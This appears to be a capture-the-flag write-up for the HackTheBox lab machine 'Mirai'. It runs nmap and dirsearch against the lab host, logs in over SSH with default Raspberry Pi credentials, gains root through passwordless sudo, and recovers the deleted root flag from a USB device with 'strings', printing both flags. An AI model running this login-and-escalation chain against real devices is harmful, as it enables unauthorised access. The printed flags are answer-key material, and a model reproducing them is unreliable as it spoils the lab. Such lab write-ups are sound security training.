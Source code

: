 ## ---------------->> Mirai <<---------------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.48 -p-
-------

    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-11 12:32 UTC
    Stats: 0:02:06 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
    Connect Scan Timing: About 16.75% done; ETC: 12:45 (0:10:21 remaining)
    Stats: 0:05:48 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
    Connect Scan Timing: About 43.08% done; ETC: 12:46 (0:07:38 remaining)
    Nmap scan report for 10.10.10.48
    Host is up (0.35s latency).
    Not shown: 65529 closed ports
    PORT      STATE SERVICE VERSION
    22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
    |   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
    |   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
    |_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
    53/tcp    open  domain  dnsmasq 2.76
    | dns-nsid: 
    |_  bind.version: dnsmasq-2.76
    80/tcp    open  http    lighttpd 1.4.35
    |_http-server-header: lighttpd/1.4.35
    |_http-title: Site doesn't have a title (text/html; charset=UTF-8).
    1417/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
    32400/tcp open  http    Plex Media Server httpd
    | http-auth: 
    | HTTP/1.1 401 Unauthorized\x0D
    |_  Server returned status 401 but no WWW-Authenticate header.
    |_http-cors: HEAD GET POST PUT DELETE OPTIONS
    |_http-favicon: Plex
    |_http-title: Unauthorized
    32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


// Navigating to http://10.10.10.48/ give us blank page

// Lets try to search for interesting directories with [dirsearch](https://github.com/maurosoria/dirsearch)(By Maurosoria)

    $ python3 dirsearch.py -u http://10.10.10.48/ -t 150 -i 100-400
------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 150 | Wordlist size: 10903

    Output File: /home/kali/Desktop/Tools/dirsearch/reports/10.10.10.48/_21-08-11_13-19-46.txt

    Error Log: /home/kali/Desktop/Tools/dirsearch/logs/errors-21-08-11_13-19-46.log

    Target: http://10.10.10.48/

    [13:19:46] Starting: 
    [13:20:06] 301 -    0B  - /admin  ->  http://10.10.10.48/admin/

    Task Completed

// We found /admin/ directory

// Navigating to http://10.10.10.48/admin/ 

// We see a dashboard of Pi-Hole dns blocklist application for raspberry-pi devices.

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Mirai/1.png)

// Clicking on bottomm 'Login' >> 'Forgot password' , we can see that at first raspberry-pi get default credentials

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Mirai/2.png)

// And since we got SSH running lets try to connect with default raspberry-pi credentials: 'pi : raspberry'

    $ ssh pi@10.10.10.48
-------

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sun Aug 27 14:47:50 2017 from localhost

    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

    pi@raspberrypi:~ $ id
    uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
    pi@raspberrypi:~ $ 

// We got connected !!

// And user flag !

    pi@raspberrypi:~/Desktop $ cat user.txt
    ff837707441b257a20e32199d7c8838d



### ------Privilleges Escelation------

// Gain root

    $ sudo -l
    Matching Defaults entries for pi on localhost:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User pi may run the following commands on localhost:
        (ALL : ALL) ALL
        (ALL) NOPASSWD: ALL
    pi@raspberrypi:~/Desktop $ sudo -i

    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

    root@raspberrypi:~# 

// Was easy isnt it, we have sudo permissions

// When try to see the flag we got some text in the file instead

    root@raspberrypi:~# cat /root/root.txt 
    I lost my original root.txt! I think I may have a backup on my USB stick...
    
// So the flag is on the USB stick

// Lets run 'df' command to see the all connected file systems

    root@raspberrypi:# df
    Filesystem     1K-blocks    Used Available Use% Mounted on
    aufs             8856504 2834172   5549400  34% /
    tmpfs             102396    4868     97528   5% /run
    /dev/sda1        1354528 1354528         0 100% /lib/live/mount/persistence/sda1
    /dev/loop0       1267456 1267456         0 100% /lib/live/mount/rootfs/filesystem.squashfs
    tmpfs             255988       0    255988   0% /lib/live/mount/overlay
    /dev/sda2        8856504 2834172   5549400  34% /lib/live/mount/persistence/sda2
    devtmpfs           10240       0     10240   0% /dev
    tmpfs             255988       8    255980   1% /dev/shm
    tmpfs               5120       4      5116   1% /run/lock
    tmpfs             255988       0    255988   0% /sys/fs/cgroup
    tmpfs             255988       8    255980   1% /tmp
    /dev/sdb            8887      93      8078   2% /media/usbstick
    tmpfs              51200       0     51200   0% /run/user/999
    tmpfs              51200       0     51200   0% /run/user/1000

// We can see there /media/usbstick

// Lets check what inside

    root@raspberrypi:# ls /media/usbstick/
    damnit.txt  lost+found
    
------

    root@raspberrypi:# cat /media/usbstick/damnit.txt 
    Damnit! Sorry man I accidentally deleted your files off the USB stick.
    Do you know if there is any way to get them back?

    -James
    
// seems that the flag rased by james. lets try to find him with 'strings' command on /dev/sdb

    root@raspberrypi:# strings /dev/sdb
    >r &
    /media/usbstick
    lost+found
    root.txt
    damnit.txt
    >r &
    >r &
    /media/usbstick
    lost+found
    root.txt
    damnit.txt
    >r &
    /media/usbstick
    2]8^
    lost+found
    root.txt
    damnit.txt
    >r &
    3d3e483143ff12ec505d026fa13e020b
    Damnit! Sorry man I accidentally deleted your files off the USB stick.
    Do you know if there is any way to get them back?
    -James

--------

// We found root flag !

    3d3e483143ff12ec505d026fa13e020b
